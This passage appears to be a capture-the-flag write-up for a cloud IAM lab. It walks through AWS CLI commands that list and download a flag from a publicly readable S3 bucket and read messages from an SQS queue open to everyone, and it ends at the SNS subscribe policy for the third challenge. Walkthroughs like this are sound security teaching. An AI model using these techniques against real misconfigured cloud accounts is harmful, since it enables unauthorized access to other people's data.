 We first list the objects within the resource designated in the IAM policy:

`aws s3 ls s3://thebigiamchallenge-storage-9979f4b/files/ --no-sign-request`

This reveals a couple of objects. The one we're interested is the `flag1.txt`. We download this file with the command below.

`aws s3 cp s3://thebigiamchallenge-storage-9979f4b/files/flag1.txt  ./flag1.txt --no-sign-request`

## Challenge 2

```
{
    "Version": "2012-10-17",
    "Statement": [
        {
            "Effect": "Allow",
            "Principal": "*",
            "Action": [
                "sqs:SendMessage",
                "sqs:ReceiveMessage"
            ],
            "Resource": "arn:aws:sqs:us-east-1:092297851374:wiz-tbic-analytics-sqs-queue-ca7a1b2"
        }
    ]
}
```

### Understanding the Policy

Allows all users to deliver and recieve messages from the specified SQS queue.

### Testing the Theory

`aws sqs receive-message --queue-url https://sqs.us-east-1.amazonaws.com/092297851374/wiz-tbic-analytics-sqs-queue-ca7a1b2 --region us-east-1 --profile username`

This command returns a response that contains a URL to an S3 bucket containing the flag

## Challenge 3

```
{
    "Version": "2008-10-17",
    "Id": "Statement1",
    "Statement": [
        {
            "Sid": "Statement1",
            "Effect": "Allow",
            "Principal": {
                "AWS": "*"
            },
            "Action": "SNS:Subscribe",
            "Resource": "arn:aws:sns:us-east-1:092297851374:TBICWizPushNotifications",
            "Condition": {
                "StringLike": {
                    "sns:Endpoint": "*@tbic.wiz.io"
                }
            }
        }
    ]
}
```
